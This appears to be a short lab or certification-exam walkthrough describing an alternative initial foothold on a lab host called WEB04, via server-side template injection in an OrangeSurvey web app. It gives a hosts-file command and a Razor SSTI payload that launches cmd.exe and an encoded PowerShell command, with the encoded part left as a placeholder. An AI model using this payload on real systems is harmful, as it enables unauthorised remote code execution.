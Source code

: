 # Alternative initial foothold on WEB04

Add the hostname to your Kali (you cannot access via IP):
`sudo echo "192.168.X.200	web04.cowmotors.com" >> /etc/hosts`

Access the webapp on HTTPS port (not HTTP), you will end up on OrangeSurvey at https://web04.cowmotors.com

The survey is vulnerable to Razor SSTI (try all fields), the payload is (without the ` for Markdown formatting)  
`@System.Diagnostics.Process.Start("cmd.exe","/c powershell -e ENCODEDCOMMAND");`

For the payload, use my guide [[LINK ONLY AVAILABLE IN PAID GUIDE, BECAUSE SHARED WITH OTHER EXAM SETS]] to know how to encode and test properly the payload.